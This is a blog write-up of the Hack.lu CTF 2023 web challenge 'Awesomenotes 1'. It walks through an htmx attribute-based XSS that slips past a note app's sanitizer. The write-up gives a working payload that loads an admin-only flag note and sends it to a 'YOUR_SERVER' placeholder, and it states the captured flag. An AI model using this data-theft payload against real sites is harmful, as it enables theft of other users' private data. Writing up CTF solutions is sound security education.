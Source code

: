 ```yaml
---
layout: post
title: "Hack.lu CTF - "Awesomenotes 1" web challenge writeup"
date: 2023-10-15 22:40:00 +0100
categories: ctf web security writeup htmx
permalink: /posts/ctf-hack-lu-awesomenotes
---
```


## Awesomenotes 1

CTF name: **[Hack.lu CTF 2023](https://flu.xxx/info)**
Challenge name: **Awesomenotes 1**
Challenge description:

```text
We're excited to announce our new, revolutionary product: A note-taking app. This phenomenal product uses the most up-to-date, bleeding-edge tech in order to stay ahead of all potential security issues. No-one can pwn us.
```

Challenge category: **web**
Challenge points: **88**
When: **Fri, Oct. 13, 18:00 — Sun, Oct. 15, 18:00 UTC**

### TLDR - solution

```html
<div 
    hx-get="/api/note/flag?t=" 
    hx-trigger="load delay:0.001s"
    hx-target="#report"
>
    get flag
</div>
<div 
    hx-get="YOUR_SERVER" 
    hx-on::config-request="event.detail.parameters['flag'] = document.getElementById('report').innerHTML"
    hx-trigger="load delay:0.8s"
    hx-target="#report"
>
    send flag
</div>
```

### Description

![Alt text](/assets/images/2023-10-15/image-4.png)
Challenge was marked as **beginner friendly**. You're greet with a simple web page where you can create and report a `note`.

![Alt text](/assets/images/2023-10-15/image-8.png)

After checking the `get_note` function we knew the flag location (in a `flag` note) and that only admin had an access to it.

![Alt text](/assets/images/2023-10-15/image-1.png)

Another function `take_report` is called by a bot after reporting a note. The last function `upload_note` has some logic to sanitize a user input. After a quick look you find that `hx-` tags are allowed.

![Alt text](/assets/images/2023-10-15/image-2.png)

Another hint is in the `note.html` file.

![Alt text](/assets/images/2023-10-15/image-3.png)

It should be clear by now that we need to prepare a note and use **XSS** to send us a flag after we report it to admin and that [htmx](https://htmx.org/docs/) is used/allowed on the FE. There's even an example 😉

We used [webhook.site](https://webhook.site) as a temporary log server.

The idea was to use `htmx` to make two calls:

- first to get the `flag` note from `/api/notes/flag`
- second to send the `flag` to our server

`noteId` is always added to `hx-get="/api/note/` on every `post` call, so adding `?t=` at the very end means we can ignore it. `hx-trigger` sets the runtime delay. `hx-target` is our target html element, so we used the `report` bottom link button with `id="report"`.

![Alt text](/assets/images/2023-10-15/image-5.png)

We've got the first call ready (it fails with `401` while testing. It's a good sign because we don't have an access to the flag).

The second part is all about `hx-on::config-request`. In the [docs](https://htmx.org/events/#htmx:configRequest) we've found you can set event parameters via `event.detail.parameters['your_parameter']`. We should already have the `flag` in `#report` link, so all we need is to get the value via `document.getElementById('report').innerHTML`. Last thing is to set the trigger to give some time for the first call to update the link.

Send prepared note, wait for a request

![Alt text](/assets/images/2023-10-15/image-7.png)

and you get the `flag`

```text
flag{C3r34l_1s_s0up_l1k3_1f_4gr33}
```

{% include posts_footer.html %}
